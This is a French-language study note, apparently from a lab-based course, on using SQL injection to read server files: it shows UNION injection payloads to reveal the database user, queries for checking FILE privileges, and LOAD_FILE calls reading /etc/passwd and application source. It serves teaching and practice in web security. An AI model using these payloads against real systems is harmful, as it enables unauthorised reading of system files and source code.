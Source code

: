 ```yaml
---
title:  "Lecture de Fichiers"
category: "Exploitation"
tag: "Principes de base de l'injection SQL"
---
```

Au-delà de la récupération de données concernant les tables et BDD dans le SGBD, une injection SQL peut aussi être utilisée pour effectuer de nombreuses opérations, telles que la lecture et l'écriture de fichiers sur un serveur et même l'exécution de code à distance (RCE) sur le serveur distant.

> Lire des données est bien plus commun que d'en écrire, qui est réservé aux utilisateurs ayant les privilèges adéquats dans les SGBD modernes. Sur **MySQL** par exemple, l'utilisateur doit avoir le privilège **FILE** avant de pouvoir charger un fichier dans une table.

# Identification de l'utilisateur DB

Il est nécessaire de d'abord identifier quel utilisateur nous sommes dans la base de données ainsi que nos privilèges. Dans les SGBD modernes, il faut être **DBA** (database Admin) pour avoir le privilège de lecture/écriture de fichier.

Pour déterminer cela, nous pouvons utiliser les commandes suivantes :

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Avec une injection de tye **UNION**
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
ou
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```
Dans notre cas, nous sommes root.

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/readingFiles1.png" alt="Alt text"></center>

# Privilège de l'utilisateur

Vérification du privilège super-admin (avec éventuellement WHERE user="ourUser" ):

```sql
SELECT super_priv FROM mysql.user
```

Affichage des autres privilèges :

```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges 
```
<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/readingFiles2.png" alt="Alt text"></center>

Si on a le droit **FILE** comme dans l'exemple ici, nous pouvons lire les fichiers (et peut être même écrire).


# LOAD_FILE()

Une fois que l'on sait que nousavons les privilèges pour lire les fichiers du système local, nous pouvons utiliser la fonction **LOAD_FILE()**.
**[LOAD_FILE](https://mariadb.com/kb/en/load_file/)** peut être utilisé avec **MariaDB / MySQL** pour lire les données provenant d'un fichier.

```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/var/www/html/search.php');
```

> Remarque : Nous ne pourrons lire le fichier que si l'utilisateur du système d'exploitation qui exécute MySQL dispose des privilèges suffisants pour le lire.

On peut utiliser les injections sql pour récupérer des informations sensibles contenues dans des fichiers comme le code source d'une application.


